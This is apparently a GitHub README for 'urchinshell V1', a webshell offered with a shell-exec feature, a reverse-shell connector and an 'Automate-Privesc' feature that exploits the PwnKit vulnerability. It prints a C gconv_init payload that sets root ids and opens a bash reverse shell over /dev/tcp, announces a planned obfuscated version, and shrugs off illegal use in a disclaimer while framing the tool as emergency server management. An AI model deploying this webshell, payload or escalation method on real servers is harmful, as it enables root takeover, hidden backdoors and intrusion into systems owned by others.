 # urchinshell V1

This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)
**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

## How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp
